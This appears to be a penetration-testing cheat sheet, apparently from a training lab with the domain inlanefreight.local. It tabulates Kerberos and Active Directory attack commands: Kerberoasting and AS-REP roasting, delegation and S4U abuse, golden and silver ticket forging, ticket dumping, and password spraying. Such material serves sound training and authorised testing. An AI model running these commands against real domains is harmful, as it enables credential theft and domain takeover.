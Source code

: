 | `Command` | `Description` |
| --------------|-------------------|
| `Invoke-Kerberoast`  | Get Kerberoastable accounts & hashes on Windows  |
| `GetUserSPNs.py inlanefreight.local/pixis`  | Get Kerberoastable accounts & hashes on Linux |
| `Get-DomainUser -UACFilter DONT_REQ_PREAUTH`  | Get AS-Rep roastable accounts & hashes on Windows |
| `Rubeus.exe asreproast /format:hashcat` | Get AS-Rep roastable accounts & hashes with rubeus |
| `GetNPUsers.py inlanefreight.local/pixis`  | Get AS-Rep roastable accounts & hashes on Linux |
| `Rubeus.exe monitor /interval:5`  | Monitor TGT copies in TGS every 5 secondes (Unconstrained Delegation) |
| `Rubeus.exe asktgs /ticket:<b64 ticket> /service:<SPN> /ptt`  | Get a TGS using a TGT |
| `Rubeus.exe renew /ticket:<b64 ticket> /ptt`  | Renew a TGT and pass it in memory |
| `Get-DomainComputer -TrustedToAuth`  | Get service accounts with constrained delegation on Windows |
| `Rubeus.exe s4u /impersonateuser:<User> /msdsspn<SPN> /altservice:<SRV> /user:<USR> /rc4:<NT Hash> /ptt`  | Perform a S4U2* attack on Windows |
| `findDelegation.py inlanefreight.local/pixis`  | Get service accounts with delegation on Linux |
| `getST.py -spn <SPN> -hashes :<NT Hash> 'domain/user' -impersonate <user>`  | Perform a S4U2* attack on Linux |
| `mimikatz # kerberos::golden /domain:<domain> /user:<user> /sid:<Domain SID> /rc4:<krbtgt NT hash> /ptt`  | Forge a golden ticket on Windows |
| `ticketer.py -nthash <krbtgt NT hash> -domain-sid :<Domain SID> -domain <domain> <user>`  | Forge a golden ticket on Linux |
| `mimikatz # kerberos::golden /domain:inlanefreight.local /user:<user> /sid:<Domain SID> /rc4: <Service account NT hash> /target:<target service account> /service:<service>  /ptt`  | Forge a silver ticket on Windows |
| `ticketer.py -nthash <Service account NT hash> -domain-sid <Domain SID> -domain <domain> -spn <SPN> <User>`  | Forge a silver ticket on Linux |
| `Rubeus.exe dump /luid:0x89275d /service:krbtgt`  | Dumps TGT in memory |
| `kerbrute userenum users.txt --dc dc01.inlanefreight.local -d inlanefreight.local`  | Enumerate user accounts via Kerberos |
| `kerbrute passwordspray users.txt inlanefreight2020 --dc dc01.inlanefreight.local -d inlanefreight.local`  | Password spraying via TGT request |
